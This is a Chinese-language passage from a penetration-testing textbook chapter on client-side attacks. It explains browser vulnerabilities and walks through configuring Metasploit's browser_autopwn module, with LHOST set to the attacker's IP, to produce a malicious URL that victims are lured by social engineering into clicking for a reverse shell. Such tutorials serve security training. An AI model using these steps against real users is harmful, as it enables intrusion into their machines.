 # 第 6 章客户端开发

在上一章中，我们完成了漏洞扫描和信息收集阶段。在本章中，我们将讨论我们可能会以各种方式向受害者（客户）妥协。我们将介绍各种技术，例如引诱受害者点击 URL 或图标，这最终会给我们一个反向 shell。

# 什么是客户端攻击？

在前面几章中，我们已经掌握了一些利用漏洞的基本知识，现在我们继续讨论客户端攻击。但要理解客户端攻击，我们首先需要对客户端-服务器体系结构有清晰的概念，并区分这两个组件之间的攻击。服务器是通过网络共享其资源的主计算机，而作为网络上其他计算机的客户端使用这些资源。每个故事都有消极的一面。因此，当服务器向客户端提供服务时，它还可能暴露可能被利用的漏洞。现在，当攻击者攻击服务器时，他可能会对服务器进行拒绝服务攻击，这将最终使其所有服务崩溃。具体来说，这是一种服务器端攻击，因为我们实际上试图攻击服务器，而不是任何客户端。

客户端攻击仅限于客户端，目标是可能在该特定计算机上运行的易受攻击的服务和程序。如今，这一趋势正在发生变化，它更加关注客户端攻击，而不是服务器端攻击。根据一种普遍趋势，服务器通常被锁定，只有最少的服务和受限的访问。这使得攻击服务器变得非常困难，因此黑帽子被引诱到易受攻击的客户端。可能针对客户端发起大量攻击，例如基于浏览器的攻击和易受攻击的服务攻击。此外，客户端操作系统具有多个应用程序，如 PDF 阅读器、文档阅读器和即时通讯器。通常不会更新或修补这些安全漏洞，因为它们被视为安全配置错误而被忽略。因此，使用简单的社会工程技术对这些易受攻击的系统进行攻击是非常容易的。

## 浏览器漏洞

浏览器漏洞早已为人所知。框架和扩展有时也是开发的原因。最近有消息称，Chromium、InternetExplorer 和 Mozilla 等浏览器的一些最新版本遭到了破坏。恶意代码可能利用浏览器内置的任何形式的 ActiveX、Java 和 Flash 来增强用户体验。受到此类攻击影响的受害者可能会发现他们的主页、搜索页面、收藏夹和书签发生了更改。在某些情况下，可能会更改设置或 Internet 选项以降低浏览器安全级别，从而使恶意软件更加普遍。

### 教程

在教程部分，我们将向您展示几个通过受害者浏览器运行的漏洞。

我们将展示的第一个漏洞称为浏览器自动关闭。首先打开终端并启动`msfconsole`。现在输入`use auxiliary/server/browser autopwn`。

![Tutorial](graphics/3589_06_01.jpg)

然后输入`show options`详细查看我们必须在漏洞利用中设置的所有选项。

![Tutorial](graphics/3589_06_02.jpg)

在上图中，我们可以看到哪些选项是必需的，哪些不在**必需的**列中。**是**表示我们必须设置该选项，**否**表示该选项可以与其默认设置一起使用。因此需要的第一个选项是`LHOST`。反向连接需要 IP 地址，因此我们在这里设置攻击者的机器 IP。为此，请键入`set LHOST 192.168.11.23`。

![Tutorial](graphics/3589_06_03.jpg)

设置`LHOST`地址后，下一步要设置的是`SRVHOST`。`SRVHOST`表示服务器本地主机地址。我们通过输入`set SRVHOST 192.168.11.23`来设置本地机器地址。

![Tutorial](graphics/3589_06_04.jpg)

现在，为了设置和`SRVPORT`，也就是本地端口地址，我们输入`set SRVPORT 80`。

![Tutorial](graphics/3589_06_05.jpg)

所有设置都已完成。现在是运行辅助模块的时候了；所以输入`run`。

![Tutorial](graphics/3589_06_06.jpg)

在运行辅助模块之后，我们可以看到它在本地主机上启动了漏洞利用模块。此外，它提供了一个恶意 URL，我们必须将其提供给受害者。这是一种简单的社会工程技术，用户被引诱点击恶意 URL。
